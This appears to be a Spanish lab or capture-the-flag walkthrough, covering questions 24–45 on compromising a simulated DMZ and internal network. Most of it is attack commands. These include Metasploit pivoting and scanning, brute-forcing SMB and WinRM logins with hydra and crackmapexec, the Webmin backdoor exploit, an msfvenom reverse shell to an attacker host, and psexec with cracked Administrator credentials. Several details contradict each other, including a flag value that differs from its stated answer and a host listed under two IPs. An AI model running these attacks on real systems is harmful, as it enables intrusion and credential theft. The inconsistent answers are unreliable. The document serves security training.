Tras obtener persistencia en **WINSERVER-03** (`.55`), se realizó un análisis de interfaces con `ipconfig /all`. Se identificó una segunda tarjeta de red en el segmento **192.168.0.0/24**, confirmando que este host actúa como el *gateway* hacia la red interna].


R: 192.168.0.0/24

### 24.- How many hosts exist within the internal network that cannot be accessed through the DMZ network? (2,3,4,5)

Utilizando la sesión activa en el host pivot (`.55`), se ejecutó un módulo de `ping_sweep` sobre el nuevo segmento.

Agregamos la ruta hacia la subred interna:
`run autoroute -s 192.168.0.0/24`

Verificamos que la ruta se haya guardado correctamente:
`run autoroute -p`

Mandamos la sesión a segundo plano para usar los escáneres.
`background`


Continuamos con el Ping Sweep:

`use post/multi/gather/ping_sweep`

`set RHOSTS 192.168.0.0/24`

`set SESSION 1`

`run`


Se descubrieron **3 hosts adicionales** (`.1, .51, .57`) que no eran accesibles directamente desde la red DMZ.

`Para el escaneo de puerto tcp se emplea el siguiente modulo:`

`use auxiliary/scanner/portscan/tcp`

`set RHOSTS 192.168.0.1. 192.168.0.50, 192.168.0.51, 192.168.0.57` 

`set PORTS 22,80,443,8080,10000`

`set THREADS 50`

`run`


Ahora es posible descubrir las aplicaciones que corren en esos puertos:

`use auxiliary/scanner/http/http_version`

`set RHOSTS 192.168.0.50, 192.168.0.51`

`set PORTS 80,8080,10000`

`run`


R: 3

### 25.- Which host can be used as a pivot point to access the internal network? (WINSERVER-03, WEB-SERVER-01, WINSERVER-02, WINSERVER-01)

El análisis de infraestructura confirmó que **WINSERVER-03** es el punto de pivote principal hacia la red interna. A diferencia de otros servidores como WINSERVER-01 o 02, este es el único que posee direccionamiento en ambos segmentos (192.168.100.x y 192.168.0.x).
`WINSERVER-03 = 192.168.100.50`


`WINSERVER-02 = 192.168.100.51`


`WINSERVER-03 = 192.168.100.55`


R: WINSERVER-03

### 26.- What is the password of the user account "dbadmin" on the Linux server hosting Drupal? (qwertyuiop, syntex6061, vicenzzo, sayang)

Mediante un ataque de fuerza bruta local (o *spraying*) sobre el usuario dbadmin en el servidor Linux, se validó la contraseña sayang.



Esto permitió la transición de privilegios de un usuario de servicio (`www-data`) a un usuario con directorio personal (`dbadmin`).

R: sayang

### 27.- What is the password of the user account "mary" on WINSERVER-03?

Se dirigió un ataque contra el servicio SMB del host `.55` utilizando el usuario **mary**. La herramienta `hydra` identificó con éxito la credencial **hotmama**, permitiendo la enumeración de recursos compartidos administrativos como `C$` y `ADMIN$`.

`hydra -l mary -P /usr/share/wordlists/rockyou.txt smb://192.168.100.55`


`smbclient -L //192.168.100.55 -U mary%hotmama`


R: hotmama

### 28.- A target system has a user account called "lawrence". What is the password for this account? (“vincenzzo, computadora, blanca, lw9875”)

Para identificar cuentas válidas en hosts Windows no explorados, se realizó un ataque de *Password Spraying* contra el usuario **lawrence**.

`crackmapexec smb 192.168.100.50 192.168.100.55 -u 'laurence' -p diccionario.txt`


Sin embargo el nombre es lawrence, no laurence, por lo que la contraseña correcta es `computadora` en el host `192.168.100.55`:

`crackmapexec winrm 192.168.100.50 192.168.100.55 192.168.100.63 -u 'laurence' -p /usr/share/wordlist/rockyou.txt`


R: computadora

### 29.- Which host within the DMZ network can be exploited via command injection? (WINSERVER-01, WINSERVER-03, WINSERVER-02, WEBSERVER-02)

Se identificó que el host WINSERVER-03 dentro de la DMZ era vulnerable a OS Command Injection a través del servicio *Rejetto HFS*. Esta vulnerabilidad (CVE-2014-6287) permite la ejecución de comandos del sistema operativo con los privilegios del servicio web.

R: WINSERVER-03

### 30.- What is the name of the vulnerable web app running on the Linux server in the internal network? (Jenkins, phpMyAdmin, Webmin, Apache Tomcat)

En la red interna (`192.168.0.51`), se detectó el servicio **Webmin** ejecutándose en el puerto 10000.

`use auxiliary/scanner/portscan/tcp`

`set RHOSTS 192.168.0.1. 192.168.0.50, 192.168.0.51, 192.168.0.57` 

`set PORTS 22,80,443,8080,10000`

`set THREADS 50`

`run` 


El análisis de banners reveló la versión **1.920**, la cual es vulnerable a un *backdoor* en el script `password_change.cgi`, permitiendo ejecución de código como root.

`use auxiliary/scanner/http/title`

`set RHOSTS 192.168.0.51`

`set RPORT 10000`

`set SSL true`

`run`


`use exploit/linux/http/webmin_backdoor`

`set RHOSTS 192.168.0.51`

`set RPORT 10000`

`set payload cmd/unix/bind_perl`

`set SSL false`

`run`


R: Webmin

### 31.- What web server contains a file called "todo.txt"? (WINSERVER-03, WINSERVER-01, WEBSERBER-01, WINSERVER-02)

Durante la enumeración del servicio HTTP File Server (HFS) en el host WINSERVER-03, se localizó un archivo de notas denominado `todo.txt`. El contenido indicaba que el servidor se configuró para servicios de producción y que el acceso inicial debía realizarse vía RDP o SMB.


R: WINSERVER-03

### 32.- How many user accounts exist on the Drupal site? (1,2,3,4)

Tras obtener acceso a la base de datos de Drupal en el host `.52`, se realizó una consulta SQL a la tabla `users`. Se confirmó la existencia de **4 cuentas de usuario**: `admin`, `auditor`, `dbadmin` y `Vincenzo`.

Utilizando el shell anteriormente obtenido en el host `192.168.100.52`:

`cat /var/www/html/drupal/sites/default/settings.php`

Obteniendo información relacionada con la base de datos:


Como usuarios, contraseñas y puertos.

`mysql -u drupal -psyntex0421 -e "SELECT uid, name FROM drupal.users;”`


R: 4

### 33.- Which version of WordPress is running on WINSERVER-01? (5.5.9, 5.6.1, 5.9.1, 5.9.3)

La versión de **WordPress** instalada en **WINSERVER-01** (`.50`) se identificó mediante el escaneo de firmas de `wpscan` y se validó visualmente en el panel de administración como la **versión 5.9.3**


R: 5.9.3

### 34.- How many plugins are installed on the WordPress site? (2,3,4,5)

La superficie de ataque del sitio WordPress se expande a través de sus extensiones. Se identificaron **3 plugins instalados**: `Burger Companion`, `WordPress Responsive Thumbnail Slider` y `WP File Manager` .


R: 3

### 35.- Which host on the DMZ network is running a database server on port 3307? (192.168.100.52, 192.168.0.100, 192.168.100.50, 192.168.100.51)

El escaneo detallado de puertos reveló que el host 192.168.100.50 ejecuta un servidor de base de datos (MariaDB) en el puerto 3307, en lugar del puerto estándar 3306.

`nmap -p 3307 -sCV -T5 -Pn 192.168.100.50`


Para estar seguros, como contamos con una shell en los hosts 192.168.100.51 y 192.168.100.52, podemos ejecutar el siguietne comando:

`192.168.100.51`

`netstat -ano | findstr :3307`


`192.168.100.52`



Incluso es posible crear un reverse shell desde el WordPress para establecer una conexión y comprobarlo de manera local:


Shell con .msfvenom:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f raw > shell.php`


`msfconsole -q`

`use exploit/multi/handler`

`set payload php/meterpreter/reverse_tcp`

`set LHOST 192.168.100.5`

`set LPORT 4444`

`run`


Obteniendo con éxito la sesión, ahora es cuestión de ejecutar:

`execute -f cmd.exe -a "/c netstat -ano | findstr :3307" -i -H`


Verificamos con PID:

`execute -f cmd.exe -a "/c tasklist /FI \"PID eq 1528\"" -i -H`


R: 192.168.100.50

### 36.- What is the MySQL root account password on the host hosting the Drupal site?

Mediante el análisis del archivo histórico `.mysql_history` en el servidor Linux, se recuperó la contraseña de la cuenta root de MySQL: **syntex0421**.

`cat /root/.mysql_history`


`mysql -u root -psyntex0421 -e "status;”`


R: syntex0421 

### 37.- Excluding the built-in Guest account, how many user accounts are present on WINSERVER-01? (2,3,4,5)

Excluyendo la cuenta de invitado (*Guest*), se identificaron **4 cuentas de usuario locales** activas en **WINSERVER-01**: `admin`, `mike`, `Administrator` y `vince`.

Utilizando el shell previamente obtenido en el hosts `192.168.100.50`:

`execute -f cmd.exe -a "/c net user" -i -H`.


R: 4

### 38.- What is the total number of open TCP ports running on WINSERVER-02? (8,11,14,15)

Un escaneo completo de los 65,535 puertos en el host **WINSERVER-02** (`.51`) reveló un total de **14 puertos TCP abiertos**. Esta alta cantidad de servicios abiertos aumenta significativamente los vectores potenciales de compromiso.

`nmap -p- -Pn -T5 --open 192.168.100.52`


R: 14

### 39.- Which user account is a member of the local Administrators group on the host WINSERVER-03? (admin, lawrence, mike, mary)

A través de la ejecución del comando `net localgroup administrators` en WINSERVER-03, se determinó que el usuario admin es miembro del grupo de administradores locales, otorgándole control total sobre el activo.

Anteriormente vimos que mary existe en el servidor 192.168.100.55:

`crackmapexec smb 192.168.100.55 -u 'mary' -p 'hotmama' --shares`


Si bien mary puede enumerar ADMIN$ y C$, que son indicios de estar en el grupo de administradores:

`SMB         192.168.100.55  445    WINSERVER-03     [+] WINSERVER-03\admin:blanca`


`crackmapexec smb 192.168.100.55 -u 'admin' -p 'blanca' --shares`


Se empleo el siguiente modulo de msfconsole para la enumeración de usuarios:

`use auxiliary/scanner/smb/smb_lookupsid`

`set RHOSTS 192.168.100.55`

`set SMBUser admin`

`set SMBPass blanca`

`run`


La mejor opción es conseguir las credenciales del usuario Administrator: 

`crackmapexec smb 192.168.100.55 -u 'Administrator' -p /usr/share/wordlists/rockyou.txt`


y ejecutar `net localgroup administrators` para listar los usuarios del grupo administrador:

`crackmapexec smb 192.168.100.55 -u 'Administrator' -p 'swordfish' -x 'net localgroup administrators’`


R: admin

### 40.- Which one of the following hosts contains a user account called "lawrence"? (WINSERVER-03, WINSERVER-01, WEBSERVER-02, WINSERVER-02)

`192.168.100.50`


`192.168.100.51`


`192.168.100.55`


R: WINSERVER-03

### 41.- What is the hashing algorithm used to hash user account passwords on both Linux servers? (MD5, SHA-512, SHA-256, MD4)

Utilizando la shell creada previamente en `192.168.100.52`:

`cat /etc/shadow | grep root`


R: SHA-512

### 42.- How many HotFixes are installed on WINSERVER-01? (200, 220, 245, 256)

Se realizó una auditoría de parches de seguridad en el host `192.168.100.50` mediante el comando `wmic qfe`. Se confirmó la instalación de **220 HotFixes**. Este dato permite a un auditor determinar si el sistema es vulnerable a exploits de kernel recientes o si mantiene un ciclo de actualización adecuado.

`execute -f cmd.exe -a "/c wmic qfe get HotFixID | find /c \"KB\"" -i -H`


R: 220

### 43.- A system contains the file C:\Users\mike\Documents\flag.txt; what is the value of the flag?

En el host **WINSERVER-01**, se exploró el sistema de archivos tras obtener una sesión de Meterpreter. Se localizó y exfiltró el archivo `C:\Users\mike\Documents\flag.txt`, cuyo valor es **02347a49601441588c79c936783d1d7a**. La ubicación del archivo sugiere una falta de permisos restrictivos en las carpetas de usuario.

`execute -f cmd.exe -a "/c dir C:\Users" -i -H`


`execute -f cmd.exe -a "/c dir C:\Users\mike\Desktop" -i -H`


`execute -f cmd.exe -a "/c type C:\Users\mike\Documents\flag.txt" -i -H`


R: 02347a49601441588c79c936783d1d7a

### 44.- What is the value of the flag C:\Users\Administrator\flag.txt on WINSERVER-03?

Mediante un ataque de fuerza bruta exitoso contra el usuario **Administrator**, se validó la credencial **swordfish**. Esto permitió el acceso al archivo crítico `C:\Users\Administrator\flag.txt`, recuperando el valor **818ce7e06a30462a91084a9cc392eb47**. 

crackmapexec smb 192.168.100.55 -u 'Administrator' -p /usr/share/wordlists/rockyou.txt


`crackmapexec smb 192.168.100.55 -u 'Administrator' -p 'swordfish' -x 'type C:\Users\Administrator\flag.txt'`


Este hallazgo representa el compromiso total (Full Compromise) del controlador de dominio o servidor crítico.

R: 018ce7e0ea3a462a910a4a9cc392eb47

Incluso es posible crear una shell para ejecutar cualquier comando con privilegios máximos:

`msfconsole`

`use exploit/windows/smb/psexec`

`set RHOSTS 192.168.100.55`

`set SMBUser Administrator`

`set SMBPass swordfish`

`set target 2`
`run`


### 45.- Which Windows utility can be used to download files from a remote web server? (Certutil, Wget, Netstat, Mshta)

Se identificó el uso de la utilidad nativa de Windows certutil como un vector para la descarga de archivos desde servidores remotos. El uso de herramientas firmadas por Microsoft para evadir soluciones de seguridad es una técnica avanzada documentada en el framework MITRE ATT&CK.

R: certutil